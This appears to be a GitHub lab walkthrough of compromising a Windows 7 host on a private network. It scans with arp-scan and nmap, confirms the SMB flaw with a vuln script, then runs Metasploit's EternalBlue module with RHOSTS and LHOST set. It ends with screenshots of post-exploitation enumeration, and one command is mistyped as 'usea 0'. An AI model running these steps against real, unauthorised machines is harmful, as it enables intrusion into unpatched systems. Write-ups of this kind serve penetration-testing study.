 <h1 align="center"><picture><img src = "https://github.com/user-attachments/assets/2b137a71-3018-4d18-b8cd-04ef8c3918bc"></picture></h1>

## **DISCOVERING**
```bash
arp-scan -I eth0 --localnet --ignoredups
```
![image](https://github.com/user-attachments/assets/330d5006-3db7-4b91-a455-0419280d6267)

```bash
ping -c 1 192.168.1.154
```
![image](https://github.com/user-attachments/assets/b902063a-5b9e-49d3-bb65-272c47d57950)

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.1.154 -oG allports
```
![image](https://github.com/user-attachments/assets/0043ae4a-6410-468e-9442-8e3eb04d78cd)

```bash
nmap -sCV -p135,139,445,49152,49153,49154,49155,49156,49157 192.168.1.154 -oN targeted
```
![image](https://github.com/user-attachments/assets/96470cbf-bc8c-4c20-84df-f741d31e8875)

## **It is a windows7 machine and has port 445 open so we will test if it is vulnerable to Ethernal Blue.**

```bash
nmap --script "vuln and safe" -p445 192.168.1.154
```
![image](https://github.com/user-attachments/assets/9a1730e1-08e0-42ca-a976-b546580284a3)

## **We strarted Metasploit**
```bash
sudo msfdb init && msfconsole
```
![image](https://github.com/user-attachments/assets/a89be94f-c6b9-4288-930d-7ae064a7e9ad)

## **We look for a sploit for the found vulnerability**
```bash
search eternalblue
```
![image](https://github.com/user-attachments/assets/67d00fe7-43f1-4777-aed0-32ff1f1e4810)

## **Explotation**

```bash
usea 0
show options
```
![image](https://github.com/user-attachments/assets/0aeb4831-dea3-41d5-ad93-319327b42c19)

## **Configuring attack**
```bash
set RHOSTS 192.168.1.154
set LHOST 192.168.1.228
show options
```
![image](https://github.com/user-attachments/assets/cc37f640-3511-4610-a06b-aa50a8be60eb)
```bash
run
```

## **We started an inquiry to obtain information**
![image](https://github.com/user-attachments/assets/7b361969-29b6-4c69-9048-c2458d6d2732)
![image](https://github.com/user-attachments/assets/e81424fe-729a-40fb-b240-6c9a15d86d0d)
![image](https://github.com/user-attachments/assets/09a95e5c-046f-4803-8bde-bd7e816c98e9)
![image](https://github.com/user-attachments/assets/accbb18e-9464-4c09-952b-4508334e3bdd)




